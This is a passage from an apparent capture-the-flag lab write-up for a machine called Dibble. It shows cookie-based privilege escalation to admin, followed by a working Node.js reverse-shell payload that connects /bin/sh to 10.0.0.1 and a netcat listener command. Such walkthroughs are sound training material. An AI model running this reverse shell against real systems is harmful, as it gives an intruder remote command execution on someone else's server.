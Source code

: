 When attempting to create a 'New Event Log' with our new admin userLevel cookie it works!

![Dibble](/assets/img/DibblePG(9).png)

# Exploitation

We now need to attempt to upload a reverse shell compatible with Node.js and with the assistance of [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs) we have one

~~~javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
~~~

We start a netcat listener on port 21
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 21
listening on [any] 21 ...
~~~
